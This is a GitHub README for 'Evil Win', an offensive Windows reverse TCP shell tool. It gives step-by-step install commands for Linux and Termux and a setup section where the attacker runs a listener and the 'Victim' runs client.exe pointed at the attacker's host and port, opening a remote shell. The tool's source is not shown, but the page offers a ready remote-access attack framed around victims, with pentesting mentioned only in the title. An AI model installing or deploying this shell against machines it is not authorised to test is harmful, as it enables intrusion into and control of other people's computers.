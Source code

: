 # Evil Win
### Windows Reverse TCP Shell for Hacking and Pentesting


<p align="center">
  <img src="https://i.ibb.co/sH4XyfS/tranc.png">
</p>

### Main Window
<p align="center">
  <img src="https://i.ibb.co/87Pp27s/tranc-Kopie.png">
</p>


### Installation:
* Linux:
  * `sudo apt update -y`
  * `sudo apt install python3 python3-pip git -y`
  * `git clone https://github.com/i-am-unbekannt/Evil-Win`
  * `cd Evil-Win/`
  * `pip3 install -r requirements.txt`
  * `python3 Evil-Win.py`

* Termux:
  * `pkg update -y`
  * `pkg install python3 python3-pip git -y`
  * `git clone https://github.com/i-am-unbekannt/Evil-Win`
  * `cd Evil-Win/`
  * `pip3 install -r requirements.txt`
  * `python3 Evil-Win.py`

### Set Up A Connection
* Host: `python3 Evil-win.py [HOST] [PORT]`
* Victim: `client.exe [HOST] [PORT]` 
